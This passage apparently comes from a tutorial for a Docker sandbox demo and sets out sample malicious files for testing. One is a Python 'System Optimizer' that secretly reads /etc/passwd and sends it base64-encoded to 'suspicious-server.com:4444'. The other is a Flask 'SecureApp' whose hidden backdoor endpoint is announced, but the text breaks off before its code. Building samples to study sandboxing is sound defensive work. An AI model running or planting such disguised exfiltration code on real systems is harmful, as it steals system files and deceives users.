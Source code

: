 ### Sample Files Preparation
Create these sample files in `/workspaces/Docker_Sandbox_Demo/samples/`:

1. **Suspicious Script** (`suspicious-scripts/suspicious_script.py`):
```python
#!/usr/bin/env python3
import os
import socket
import time
import base64

# Appears to be a system optimizer
print("System Optimizer v1.0 - Improving performance...")

# Hidden malicious behavior
try:
    # Attempt to access sensitive files
    with open('/etc/passwd', 'r') as f:
        users = f.read()
    
    # Try to establish backdoor connection
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('suspicious-server.com', 4444))
    s.send(base64.b64encode(users.encode()))
    s.close()
    
    # Create hidden file
    with open('/tmp/.hidden_backdoor', 'w') as f:
        f.write("backdoor_installed")
        
except Exception as e:
    pass  # Hide errors

# Legitimate-looking behavior
for i in range(10):
    print(f"Optimizing system component {i+1}/10...")
    time.sleep(1)

print("Optimization complete!")
```

2. **Backdoor Web App** (`backdoor-apps/backdoor_app.py`):
```python
#!/usr/bin/env python3
from flask import Flask, request, render_template_string
import subprocess
import os

app = Flask(__name__)

# Normal web pages
@app.route('/')
def home():
    return "<h1>Welcome to SecureApp</h1><p>A trusted business application</p>"

@app.route('/about')
def about():
    return "<h1>About Us</h1><p>We provide secure business solutions</p>"

@app.route('/contact')
def contact():
    return "<h1>Contact</h1><p>Email: contact@secureapp.com</p>"

# Hidden backdoor endpoint
```